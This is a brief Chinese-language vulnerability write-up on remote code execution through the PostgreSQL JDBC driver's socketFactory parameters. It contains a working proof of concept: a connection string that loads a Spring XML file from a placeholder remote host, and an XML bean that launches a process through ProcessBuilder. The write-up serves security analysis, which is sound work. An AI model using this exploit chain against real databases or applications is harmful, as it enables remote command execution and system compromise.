 # Postgresql

看到网上都放了exp了这里就简简单单分析一下

## 简单分析

在org.postgresql.util.ObjectFactory#instantiate可以初始化任意类，这里找到了org.springframework.context.support.ClassPathXmlApplicationContext，这个函数本来就是初始化spring配置的，这里可以解析远程xml配置文件实现RCE



参数作用，来自官网

```java
socketFactory = String

The provided value is a class name to use as the SocketFactory when establishing a socket connection. This may be used to create unix sockets instead of normal sockets. The class name specified by socketFactory must extend javax.net.SocketFactory and be available to the driver's classloader. This class must have a zero-argument constructor, a single-argument constructor taking a String argument, or a single-argument constructor taking a Properties argument. The Properties object will contain all the connection parameters. The String argument will have the value of the socketFactoryArg connection parameter.

socketFactoryArg (deprecated) = String

This value is an optional argument to the constructor of the socket factory class provided above.
```



## POC

```java
      DriverManager.getConnection("jdbc:postgresql://node1/test?socketFactory=org.springframework.context.support.ClassPathXmlApplicationContext&socketFactoryArg=http://xxx/exp.xml");
```

```xml
<beans xmlns="http://www.springframework.org/schema/beans"
xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
xsi:schemaLocation="http://www.springframework.org/schema/beans
http://www.springframework.org/schema/beans/spring-beans.xsd">
<bean id="pb" class="java.lang.ProcessBuilder">
  <constructor-arg>
    <list value-type="java.lang.String" >
       <value>open</value>
       <value>-na</value>
       <value>Calculator</value>
    </list>
  </constructor-arg>
  <property name="y4tacker" value="#{pb.start()}"/>
</bean>
</beans>
```

## 似乎还可以读文件

参考CVE-2019-12086，反正都是构造函数相关

## 参考链接

放两个链接即可很简单的

https://zhuanlan.zhihu.com/p/465057399

https://github.com/pgjdbc/pgjdbc/commit/f4d0ed69c0b3aae8531d83d6af4c57f22312c813

https://jdbc.postgresql.org/documentation/head/connect.html#connection-parameters

## 其他

看到有人发了我也发了，但是赛博少女写的更好，我只是简单写写

https://mp.weixin.qq.com/s/jb7mbPWdMp1vlgF8F1mshg
